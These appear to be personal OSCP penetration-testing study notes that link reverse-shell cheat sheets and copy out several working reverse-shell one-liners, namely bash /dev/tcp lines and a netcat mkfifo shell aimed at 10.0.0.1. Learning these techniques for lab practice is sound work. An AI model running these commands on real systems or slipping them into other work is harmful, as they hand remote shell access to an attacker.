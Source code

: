 ### 26082023Sat

[OSCP - How to Take Effective Notes](https://youtu.be/yYmDQY1zKKE?list=PLDrNMcTNhhYqZU1ySROli7Oc08mxe1tZR)

https://www.youtube.com/@c0nd4

```
/bin/cat cat
```

```
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.1/53 0>&1
```

[Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Netcat OpenBsd

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

